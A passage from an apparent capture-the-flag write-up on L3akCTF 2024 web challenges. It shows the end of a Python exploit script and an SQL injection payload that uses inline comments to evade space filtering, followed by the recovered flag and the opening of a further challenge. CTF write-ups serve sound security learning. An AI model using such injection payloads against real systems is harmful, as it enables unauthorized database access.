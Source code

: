```python
    r = requests.get(URL+'dashboard', cookies=cookie)
    print(r.text)

PAYLOAD = "bubu"
exploit(sys.argv[1])

# Launch exploit
# python3 script.py "'union/**/select/**/flag/**/from/**/flag--"
```

Executing the script, it will print the dashboard HTML with the flag:

<p align="center">
  <img src="/images/writeups/L3akCTF2024/web_3.png" width="70%"/>
</p>

``` L3AK{5q1_1nj3ct10n_CLF} ```


<br>

## bbsqli - [43 solves]
477
web
SO Classic !

_Author: xhalyl_

http://45.129.40.107:9676/


We have the following code:

```python
```